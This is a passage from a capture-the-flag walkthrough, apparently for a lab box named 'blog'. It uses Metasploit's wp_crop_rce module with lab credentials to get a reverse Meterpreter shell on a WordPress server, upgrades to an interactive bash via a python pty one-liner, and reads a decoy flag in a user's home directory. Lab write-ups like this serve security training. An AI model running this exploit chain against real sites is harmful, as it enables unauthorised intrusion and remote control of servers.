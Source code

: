 ```tsx
Exploit target:

   Id  Name
   --  ----
   0   WordPress

View the full module info with the info, or info -d command.
```

The `LHOST` need to set as your own IP. Then type `exploit` to delivery the payload:

```tsx
msf6 exploit(multi/http/wp_crop_rce) > exploit

[*] Started reverse TCP handler on 10.9.63.75:4444 
[*] Authenticating with WordPress using kwheel:cutiepie1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (39927 bytes) to 10.10.127.203
[*] Meterpreter session 1 opened (10.9.63.75:4444 -> 10.10.127.203:50078) at 2023-08-20 18:25:20 -0400
[*] Attempting to clean up files...

meterpreter >
```

Then type `shell` to establish the shell and use `python` to create an interactive shell:

```tsx
meterpreter > shell
Process 15077 created.
Channel 1 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@blog:/var/www/wordpress$
```

Access the `bjoe`'s directory and read the content of `user.txt`, unfortunately, it’s the fake flag:

```tsx
www-data@blog:/home/bjoel$ ls -la
ls -la
total 100
drwxr-xr-x 4 bjoel bjoel  4096 May 26  2020 .
drwxr-xr-x 3 root  root   4096 May 26  2020 ..
lrwxrwxrwx 1 root  root      9 May 26  2020 .bash_history -> /dev/null
-rw-r--r-- 1 bjoel bjoel   220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 bjoel bjoel  3771 Apr  4  2018 .bashrc
drwx------ 2 bjoel bjoel  4096 May 25  2020 .cache
drwx------ 3 bjoel bjoel  4096 May 25  2020 .gnupg
-rw-r--r-- 1 bjoel bjoel   807 Apr  4  2018 .profile
-rw-r--r-- 1 bjoel bjoel     0 May 25  2020 .sudo_as_admin_successful
-rw-r--r-- 1 bjoel bjoel 69106 May 26  2020 Billy_Joel_Termination_May20-2020.pdf
-rw-r--r-- 1 bjoel bjoel    57 May 26  2020 user.txt
www-data@blog:/home/bjoel$ cat user.txt 
cat user.txt
You won't find what you're looking for here.

TRY HARDER
```
